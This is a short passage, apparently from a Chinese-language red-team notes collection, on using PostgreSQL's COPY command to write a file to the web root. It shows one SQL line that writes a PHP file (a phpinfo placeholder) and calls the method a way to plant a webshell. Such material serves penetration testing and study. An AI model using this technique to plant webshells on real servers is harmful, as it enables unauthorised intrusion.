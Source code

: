 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/10.png)

---

## PostgreSQL 写文件

**利用条件**
- 拥有网站路径写入权限
- 知道网站绝对路径

**方法1 COPY**

COPY 命令可以用于表和文件之间交换数据，这里可以用它写 webshell

```sql
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/1.png)
